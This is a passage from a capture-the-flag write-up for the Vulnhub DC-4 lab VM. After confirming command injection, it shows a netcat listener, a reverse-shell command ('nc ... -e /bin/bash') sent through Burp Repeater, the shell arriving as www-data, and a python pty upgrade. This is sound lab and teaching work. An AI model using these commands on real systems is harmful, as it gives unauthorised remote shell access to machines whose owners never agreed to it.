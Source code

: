 It looks like our command executed by the server. So now we can try to get a reverse shell. Since the request is captured by Burp Suite, we can send it to the Burp Suite Repeater and craft our reverse shell.

First let's start a netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-4]
└─$ sudo nc -lvp 53           
[sudo] password for emvee: 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53

```

Send the request to the Repeater.
![Image](/assets/img/WriteUp/Vulnhub/DC4/Pasted image 20230327134101.png){: width="700" height="400" }


Then craft the reverse shell command in Repeater `nc 10.0.2.15 53 -e /bin/bash` and hit the Send button.
![Image](/assets/img/WriteUp/Vulnhub/DC4/Pasted image 20230327134925.png){: width="700" height="400" }

## Initial access
Now we have to check the netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-4]
└─$ sudo nc -lvp 53
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.0.2.33.
Ncat: Connection from 10.0.2.33:35814.

```
A connection has been established! 
```bash
whoami
www-data
```
So we are www-data, now let's upgrade the shell a bit.
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@dc-4:/usr/share/nginx/html$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
<l/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
```

```bash
www-data@dc-4:/usr/share/nginx/html$ export TERM=xterm-256color  
export TERM=xterm-256color  
www-data@dc-4:/usr/share/nginx/html$ alias ll='ls -lsaht --color=auto'  
alias ll='ls -lsaht --color=auto'
```
